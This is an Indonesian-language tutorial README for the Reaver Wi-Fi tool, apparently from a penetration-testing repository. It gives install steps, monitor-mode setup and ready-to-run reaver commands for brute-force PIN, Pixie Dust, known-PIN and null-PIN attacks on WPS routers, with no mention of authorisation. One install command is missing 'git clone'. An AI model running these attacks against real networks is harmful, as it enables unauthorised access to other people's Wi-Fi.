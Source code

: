 # Reaver

![Reaver](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/reaver/img/reaver.jpg)

## Instalasi

Kali Linux:

1. Menggunakan packet manager (`apt`):

   ```
   sudo apt-get update
   sudo apt install reaver aircrack-ng pixiewps
   ```

2. Melalui compile dari source:
   
   ```
   sudo apt-get update
   sudo apt-get install build-essential libpcap-dev git
   https://github.com/t6x/reaver-wps-fork-t6x
   cd reaver-wps-fork-t6x
   make
   sudo make install
   ```

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```
   
## Penggunaan

**1. Scan Wi-Fi WPS:**

```
sudo wash -i [interface]
```

**2. Pilih Taraget**

Pastikan status `Lck` (Lock) tidak menunjukkan `YES`. Jika `YES`, artinya fitur WPS sedang terkunci (tidak bisa diserang).

**3. Jalankan Serangan:**

1. Brute Force PIN Attack:

   ```
   sudo reaver -i [interface] -b [bssid] -c [channel] -vv
   ```
2. Pixie Dust Attack:

   ```
   sudo reaver -i [interface] -b [bssid] -c [channel] -K -vv
   ```
3. Known PIN Attack:

   ```
   sudo reaver -i [interface] -b [bssid] -c [channel] -p [pin_wps] -vv
   ```
4. Null PIN Attack:

   ```
   sudo reaver -i [interface] -b [bssid] -c [channel] -p "" -vv
   ```

## Catatan Penting

Semua jenis serangan WPS (`Brute Force PIN Attack`, `Pixie Dust Attack`, `Known PIN Attack`, dan `Null PIN Attack`) tidak memerlukan keberadaan client yang terhubung ke Access Point. Hal ini dikarenakan serangan WPS berkomunikasi dan menargetkan mekanisme WPS secara langsung pada Access Point, berbeda dengan serangan `WPA/WPA2-PSK` yang memerlukan minimal satu client aktif untuk menangkap handshake. Keberhasilan serangan WPS bergantung pada status aktif fitur WPS di AP dan kerentanan implementasi WPS pada router target, bukan pada aktivitas client yang terhubung.

## Video Demonstrasi

https://youtu.be/ftriFQwsiNU?si=Ku-meK7gUpv-RXut

